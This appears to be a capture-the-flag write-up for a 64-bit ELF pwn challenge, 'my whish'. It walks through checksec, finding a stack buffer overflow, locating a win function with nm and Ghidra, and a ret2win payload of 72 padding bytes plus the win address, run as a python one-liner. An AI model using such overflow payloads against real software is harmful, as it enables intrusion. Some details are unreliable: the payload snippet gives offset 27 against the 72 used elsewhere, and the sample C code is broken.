


# challenge Name:
my whish


```
I want my wish to be realized quickly by Santa Claus. Help me!

NB: exploit the vuln and contact @_ yhack _ on discord .

Author: z0r_

```

The chall give us a binary file.
as it is pwn challenge, the  things to do : 

# check the file type:

```bash
file mywishc
mywishc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c44a06ef7233ac2c08fb46b4af8f552eaffb5f7b, for GNU/Linux 3.2.0, not stripped
```
Elf 64-bit , ..., Not stripped so it will be easy for us to  reverse engeneering the binary

# check security mitigation on the file
```bash
 $pwn checksec mywishc
[*] '/media/top0n3/data/ctf/christmas2k24/pwn/mywishc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Deam , no mitigation found. that is a security risk .
- The binary not has PIE:  the address of each symbole on .text section will be static for each time we launch the binary. 
For exemple, we can now that each time we run the prog the main function will be at xxxxxx address.
that make buffer overflow exploitation very easy.
- It also don't deactivate a stack execution.
    with that, if we can inject shellcode on stack and make program jump to the location of our shellcode, we can execute it 

after we know that the binary don't has security mitigation, let 
# understand how the program work

```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaa
Revenez plus tard, trop de souhait en attente à réaliser!
```
when we execute the prog, it as us to enter our whish

# found the buffer overflow
```bash
./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
 - we enter long strings and we get a segfault. Ok that is:
### a buffer overflow in 99% case.
### a short explaination of Buffer overflow
a buffer overflow is a vulnerability that occure when  a program write more data on a local array  variable(stack variable) than the length of the array. for example:
```C
void vuln(void){
    char username [20];
    puts("what is your name");
    gets(name);
    printf("good morning %\n" name);
}

```
if user enter a name with more chars than 20, the buffer overflow occure.
Hope you understand !!!

 
* so we have a buffer overflow, but what can we do with it *
let analyse the program function and see if we can have interesting function to make ret2win
```bash
nm mywishc
000000000040037c r __abi_tag
0000000000404030 B __bss_start
                U __libc_start_main@GLIBC_2.34
....
....
0000000000401207 T main
                 U printf@GLIBC_2.2.5
                 U puts@GLIBC_2.2.5
00000000004010e0 t register_tm_clones
0000000000401070 T _start
0000000000404030 B stdout@GLIBC_2.2.5
0000000000404030 D __TMC_END__
000000000040119e T vuln
0000000000401156 T win
```
we see win function at 0x0000000000401156 address myabe it will give us the flag.
i use ghidra to decompile the prog and this is the win function code:
```C

void win(void)

{
  puts(&DAT_00402008);
  fflush(stdout);
  printf("Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>");
  fflush(stdout);
  return;
}
```
interesting: it take no arg and will print the flag .

so now we have all info about the prog. time to exploit the BOF to make program call win function
but how to do that:
 # found BOF offset
    i use gef debugger to found the offset and it is 72




# construct the payload
```
offset = 27
win_address = 0x401156
payload = "a" * offset + b"\x56\x11\x40\x00\x00\x00\x00\x00" 
```

# exploitation
```bash
python3 -c "print('a' * 72 + '\x56\x11\x40\x00\x00\x00\x00\x00')"  | ./mywishc
Bienvenue jeune hacker. Entrez votre souhait et le père Noel le réalisera !
Entrez votre souhait : Vous voulez : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaV@
Bravo ! Vous avez pu obtenir une place privilégiée !
Tenez ce coupon secret jalousement << CMCTF{XXXX_XXXX_XXXX_XXXX} >>Segmentation fault
```
# and we get the flag:
time to write to admin and get the real flag


